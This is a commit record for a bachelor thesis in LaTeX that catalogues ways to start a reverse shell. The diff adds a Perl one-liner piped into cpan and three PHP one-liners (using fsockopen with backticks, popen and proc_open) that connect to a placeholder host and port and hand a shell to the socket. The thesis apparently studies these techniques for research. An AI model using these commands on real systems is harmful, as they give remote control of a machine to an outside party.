

Before and after one commit to matusbucher/bachelor-thesis, a LaTeX thesis (thesis/main.tex, which reads thesis/chapters/chapter1/chapter1.tex, thesis/chapters/chapter1/commands/cpan.txt, thesis/chapters/chapter1/commands/php4.txt): two parts of pages 24 and 25 of 33 before the commit and two parts of pages 24 and 25 of 35 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Add cpan and other php methods

```diff
--- a/thesis/chapters/chapter1/chapter1.tex
+++ b/thesis/chapters/chapter1/chapter1.tex
@@ -118,9 +118,27 @@ In this chapter, we go through known methods and techniques of initializing a re
 
 \TODO{dependencies}
 
+\subsubsection{Comprehensive Perl Archive Network (\texttt{cpan})}
+
+\cmdline{\commandpath{cpan.txt}}{*}{echo,cpan}{}
+
+\TODO{dependencies}
+
 \subsection{PHP (\texttt{php})}
 
-\cmdline{\commandpath{php.txt}}{*}{php}{}
+\cmdline{\commandpath{php1.txt}}{*}{php}{}
+
+\TODO{dependencies, exec call can be substituted with system or passthru call}
+
+\cmdline{\commandpath{php4.txt}}{*}{php}{}
+
+\TODO{dependencies}
+
+\cmdline{\commandpath{php5.txt}}{*}{php}{}
+
+\TODO{dependencies}
+
+\cmdline{\commandpath{php6.txt}}{*}{php}{}
 
 \TODO{dependencies}
 
--- /dev/null
+++ b/thesis/chapters/chapter1/commands/cpan.txt
@@ -0,0 +1 @@
+echo '! use Socket; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in(*\port*,inet_aton("*\host*")))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("*\shell*");};' | cpan
--- /dev/null
+++ b/thesis/chapters/chapter1/commands/php4.txt
@@ -0,0 +1 @@
+php -r '$sock = fsockopen("*\host*",*\port*); `*\shell* <&3 >&3 2>&3`;'
--- /dev/null
+++ b/thesis/chapters/chapter1/commands/php5.txt
@@ -0,0 +1 @@
+php -r '$sock = fsockopen("*\host*",*\port*); popen("*\shell* <&3 >&3 2>&3", "r");'
--- /dev/null
+++ b/thesis/chapters/chapter1/commands/php6.txt
@@ -0,0 +1 @@
+php -r '$sock = fsockopen("*\host*",*\port*); proc_open("*\shell*", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);'
```
Also changed, not shown: reverseshell/Makefile, thesis/chapters/chapter1/commands/php1.txt (renamed from thesis/chapters/chapter1/commands/php.txt), thesis/chapters/chapter1/chapter1.tex (4 more changed lines).
